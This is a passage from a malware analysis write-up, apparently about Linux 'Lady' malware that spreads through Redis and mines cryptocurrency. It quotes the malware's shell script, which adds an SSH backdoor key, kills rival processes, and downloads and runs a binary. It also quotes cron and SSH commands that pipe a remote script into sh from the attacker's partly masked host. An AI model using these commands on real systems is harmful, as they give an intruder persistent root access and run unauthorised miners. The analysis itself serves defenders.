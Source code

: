 ```
	echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
	echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
	echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
	/etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/ntp" ]; then
	if [ ! -f "/etc/systemd/system/ntp.service" ]; then
		mkdir -p /opt
		curl -fsSL http://r.cxxxxxxg.com/v51/lady_`uname -m` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33 -Install
	fi
fi

/etc/init.d/ntp start

ps auxf|grep -v grep|grep "/usr/bin/cron"|awk '{print $2}'|xargs kill -9
ps auxf|grep -v grep|grep "/opt/cron"|awk '{print $2}'|xargs kill -9
```

This script, when executed, will overwrite the cron jobs at `/var/spool/cron/root` and `/var/spool/cron/crontabs` with the following line, which will download and run the same script as above:

```
*/10 * * * * curl -fsSL http://r.cxxxxxxxg.com/pm.sh?0706 | sh
```

Additionally, the script will remove the `/root/.ssh/authorized_keys` file in case it exists (created by the Redis attack), and will add a new public key in an alternate `authorized_keys` file. It will also check if there's the malware's service file at `/etc/init.d/ntp` or `/etc/systemd/system/ntp.service`. In case not, it will donwload the Lady Linux binary corresponding to the target platform and run it with the -Install flag.

In addition to this script that will be run, the Redis commands will create a `/root/.ssh/authorized_keys` file in the target machine, containing a public key file. Then, the malware has the private key hardcoded in order to connect afterwards to the attacked machine via SSH as root, and run the following command:

```
curl -fsSL http://r.cxxxxxxxg.com/pm.sh?0703?ssh | sh
```

This will again download the script above and run it.

It is worh noting that the malware is appending a `?ssh` parameter to the query string, probably to allow the tracking of the machines compromised via SSH, so the attacker can connect to them later.

#### Minerd
This payload of the malware is in charge of monetizing the infections, by installing a cryptocurrency miner.

The goroutine will first check if the `minerd` process is running, and kill it. Then it checks if the file at `/opt/minerd` does not exists, download it from `http://r.cxxxxxxxg.com/minerd` and run it with one of the commands provided in the configuration file, for example:
